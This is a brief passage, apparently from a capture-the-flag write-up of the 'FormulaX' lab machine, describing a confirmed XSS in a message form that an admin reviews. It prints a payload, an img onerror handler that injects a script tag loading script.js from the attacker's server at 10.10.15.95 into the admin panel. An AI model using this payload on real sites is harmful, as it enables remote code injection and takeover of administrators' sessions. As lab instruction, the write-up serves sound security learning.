 I receive a lot of request from all the fields, so they are vulnerable and somebody reviews my messages:

![received first payload xss](/assets/images/FormulaX/received-xss-first-payload.png)

As I have confirmed an XSS vulnerability, I will use the payload `<img src=x onerror="d=document; _ = d.createElement('script');_.src='http://10.10.15.95/script.js';d.body.appendChild(_)">` to create a script tag in the admin's panel that loads a `script.js` file located in my server:
